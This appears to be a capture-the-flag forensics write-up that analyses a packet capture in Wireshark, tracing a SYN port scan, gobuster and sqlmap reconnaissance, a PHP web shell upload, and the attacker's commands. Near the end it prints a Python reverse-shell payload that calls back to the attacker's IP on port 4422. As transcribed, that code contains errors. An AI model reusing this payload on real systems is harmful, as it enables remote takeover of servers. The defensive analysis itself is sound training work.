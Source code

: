 ```yaml
---
custom_edit_url: null
---
```


## What is the IP responsible for conducting the port scan activity?
Port scanning is done for TCP ports.
In order to see the port scan activity, we have to to go `Statistics > Conversations > TCP`.

![1](https://github.com/Knign/Write-ups/assets/110326359/b2b6e66d-cff1-4e92-bd5b-e6cecd25319d)

### Answer
```
10.251.96.4
```

&nbsp;

## What is the port range scanned by the suspicious host?
Let's sort `Port B` in an ascending order.

![2](https://github.com/Knign/Write-ups/assets/110326359/46478686-7f2b-431d-954d-583265b08bfb)

We can see that the last port scanned is 1024.
### Answer
```
1-1024
```

&nbsp;

## What is the type of port scan conducted?
We can filter the packets using the following filter:
```
ip.src == 10.251.96.4
```

![3](https://github.com/Knign/Write-ups/assets/110326359/77cde470-7352-4a42-b6bd-4fd59c6353a5)

The packets that we filtered are TCP packets with the SYN flag set.
### Answer
```
TCP SYN
```

&nbsp;

## Two more tools were used to perform reconnaissance against open ports, what were they?
The application/tool and its version can be identified using the `User-Agent` header.

Using the following filter we can filter out packets sent to the suspicious agent and the User-Agent header.
```
ip.dst == 10.251.96.5 && http.user_agent
```

![4](https://github.com/Knign/Write-ups/assets/110326359/bb134ae8-a7ae-4ef3-be43-4309552cdf5b)

As we can see the first tool is GoBuster which is enumerating all the directories.

In order to find the second tool, we have to scroll down until we find an encoded URI.

![5](https://github.com/Knign/Write-ups/assets/110326359/0c14f5fc-fa7f-49d4-97a0-53698f5f2e05)

The second tool is SQLmap.
### Answer
```
gobuster 3.0.1, sqlmap 1.4.7
```

&nbsp;

## What is the name of the php file through which the attacker uploaded a web shell?
The HTTP POST method is used to upload data to a server. We can filter for these packets using the following filter:
```
http.request.method == POST
```
Scrolling down, we can see a POST request made for a `upload.php` file.

![6](https://github.com/Knign/Write-ups/assets/110326359/84ad7616-2e61-4fc3-a0a6-7c82ebb75bdb)

The `Referer` header in the packet tells us the address from which a resource has been requested.
### Answer
```
editprofile.php
```

&nbsp;

## What is the name of the web shell that the attacker uploaded?
Let's follow the TCP stream for the same packet by going to `Follow > TCP Stream`.

![7](https://github.com/Knign/Write-ups/assets/110326359/a8682218-3dfe-4c5f-bd32-4e3c6149b2f7)

As we can see the `Content-Disposition` header is set to `form-data` with the `dbfunctions.php` as the filename.
### Answer
```
dbfunctions.php
```

&nbsp;

## What is the parameter used in the web shell for executing commands?
In the same TCP Stream we can see an if statement that takes `cmd` as the parameter. 

![7](https://github.com/Knign/Write-ups/assets/110326359/4cf973ca-bafa-477a-ac40-6da3eb105bbd)

### Answer
```
cmd
```

&nbsp;

## What is the first command executed by the attacker?
The commands to the uploaded file are sent using GET requests. We can use the following filter to separate out these packets.
```
http.request.method == GET
```

![8](https://github.com/Knign/Write-ups/assets/110326359/b15615e2-303a-4024-b751-af31201f3314)

There were three commands executed: `id`, `python code` and `whoami`.
### Answer
```
id
```

&nbsp;

## What is the type of shell connection the attacker obtains through command execution?
We need to open the packet with the python script.

![9](https://github.com/Knign/Write-ups/assets/110326359/653d5d08-6458-477f-94c7-6028d5538d95)

Once formatted, the script looks as follows:
```python
import socket, subprocess, os;
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM);
s.connect("10.251.96.4", 4422);
os.dup2(S.fileno(),0)
os.dup2(S.fileno(),0)
os.dup2(S.fileno(),0)
p = subprocess.call(["/bin/sh", "-i"])
```
It creates a socket object `s` and connects to the specified IP address ("10.251.96.4") and port (4422).

It then uses `subprocess.call` to execute the `/bin/sh` shell with the "-i" flag, which opens an interactive shell session, effectively allowing the user to control the remote server.

This is inline with the characteristics of a reverse shell.
### Answer
```
Reverse shell
```

&nbsp;

## What is the port he uses for the shell connection?
We saw that the reverse shell connects to port 4422.
### Answer
```
4422
```

